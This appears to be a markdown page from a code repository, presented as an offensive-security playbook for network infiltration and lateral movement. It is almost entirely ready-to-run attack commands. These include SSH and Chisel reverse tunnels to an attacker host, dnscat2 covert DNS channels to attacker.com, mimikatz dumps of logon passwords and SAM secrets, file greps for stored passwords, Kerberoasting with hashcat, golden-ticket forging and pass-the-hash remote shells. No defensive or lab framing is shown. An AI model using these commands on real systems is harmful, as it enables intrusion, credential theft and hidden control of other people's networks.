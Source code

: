 ## Network Infiltration and Lateral Movement

### Advanced Network Pivoting
**Objective**: Move through network infrastructure to reach high-value targets

**Techniques**:
```bash
# 1. SSH tunneling for network pivoting
ssh -D 8080 -N -f user@compromised_host
proxychains nmap -sT target_internal_network

# 2. Metasploit pivoting
use post/multi/manage/autoroute
set SESSION 1
run
use auxiliary/scanner/portscan/tcp

# 3. Chisel tunneling
# On attacker machine
./chisel server -p 8000 --reverse

# On compromised machine
./chisel client attacker_ip:8000 R:1080:socks

# 4. DNS tunneling for covert communication
dnscat2-server attacker.com
dnscat2 attacker.com
```

### Credential Harvesting and Privilege Escalation
**Objective**: Extract credentials and escalate privileges across the network

**Techniques**:
```bash
# 1. Memory credential extraction
# Windows
mimikatz.exe "sekurlsa::logonpasswords" exit
mimikatz.exe "lsadump::sam" exit
mimikatz.exe "lsadump::secrets" exit

# Linux
cat /proc/*/environ | grep -i pass
grep -r "password" /etc/
find / -name "*.conf" -exec grep -l "password" {} \;

# 2. Kerberoasting attack
GetUserSPNs.py domain.com/user:password -dc-ip dc_ip -request -outputfile kerberos_hashes.txt
hashcat -m 13100 kerberos_hashes.txt /usr/share/wordlists/rockyou.txt --force

# 3. Golden ticket attack
mimikatz.exe "kerberos::golden /user:Administrator /domain:company.com /sid:S-1-5-21-... /krbtgt:hash /ticket:golden.kirbi"

# 4. Pass-the-hash attacks
pth-winexe -U domain/user%LM:NTLM //target_ip cmd.exe
smbexec.py domain/user@target_ip -hashes LM:NTLM
```
